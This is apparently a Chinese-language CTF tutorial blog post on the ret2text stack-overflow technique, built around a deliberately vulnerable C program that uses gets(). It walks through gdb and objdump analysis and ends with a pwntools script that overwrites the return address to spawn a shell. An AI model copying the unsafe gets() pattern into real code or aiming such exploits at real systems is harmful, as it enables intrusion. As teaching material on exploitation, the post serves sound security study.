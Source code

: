 ```yaml
---
title: ret2text攻击技术示例
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 什么是ret2text？

ret2text是指return to text，意思就是通过向缓冲区填入过多的数据，导致缓冲区溢出，覆盖了返回地址(return address)，返回到程序某处可以被利用的代码后，达成相应的目的，也就是获取了程序中任意地址处代码执行的能力。

ret2text是最简单的栈溢出漏洞利用技术，不需要太多的技术基础就可以进行利用。

# ret2text示例代码

``` c
//gcc -m32 -fno-stack-protector ret2text.c -o ret2text
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));
    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh"); /* [1] */

}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf); /* [2]  */
    printf("Maybe I will tell you next time !");

    return 0;

}
```

本节示例的漏洞程序也可以从该处下载：[ret2text](/files/ret2text)

# 漏洞分析

main函数里使用了不安全的gets()函数，因为没有对输入字符长度进行检查，所以会导致缓冲区溢出。我们的思路就是输入过长的数据，使buf溢出，覆盖了gets()函数的返回地址，并在返回地址处修改为system("/bin/sh")代码处的地址，这样当main函数返回，程序就会跳转到system("/bin/sh")处获取一个shell，从而完成攻击。

我们用gdb挂起程序，逐步调试。

``` asm
    0x804869b <main+83>:	mov    DWORD PTR [esp],0x804876c
    0x80486a2 <main+90>:	call   0x8048480 <puts@plt>
    0x80486a7 <main+95>:	lea    eax,[esp+0x1c]
=>  0x80486ab <main+99>:	mov    DWORD PTR [esp],eax
    0x80486ae <main+102>:	call   0x8048460 <gets@plt>
    0x80486b3 <main+107>:	mov    DWORD PTR [esp],0x80487a4
    0x80486ba <main+114>:	call   0x8048450 <printf@plt>
    0x80486bf <main+119>:	mov    eax,0x0
```
执行到0x80486a7处，使用eax存储了buf的首地址，之后在0x80486ab处将eax的值压入栈中，这里我们查看eax寄存器的值为*0xffffcd1c*。同时我们观察，此时buf首地址处于栈顶，那我们来查看以下ebp寄存器的值，值为*0xffffcd88*，而ebp再下面即是返回地址，因此我们可以得出从buf首地址到返回地址之间的距离为
``` python
0xffffcd88 - 0xffffcd1c + 0x04 = 0x70
```
同时我们需要查看 *system("/bin/sh")*的地址
``` bash
objdump -d ret2text
```
找到system()调用的代码处

``` asm
804863a:	c7 04 24 63 87 04 08 	movl   $0x8048763,(%esp)
8048641:	e8 4a fe ff ff       	call   8048490 <system@plt>
```
我们只要将返回地址覆盖为*0x804863a*便可获取一个shell

# 攻击代码

``` python
from pwn import *
io = process('ret2text')
system_addr = 0x804863a
payload = ''
payload += 'A' * (0xffffcd88 - 0xffffcd1c + 0x04 )
payload += p32(system_addr)
io.sendline(payload)
io.interactive()
```
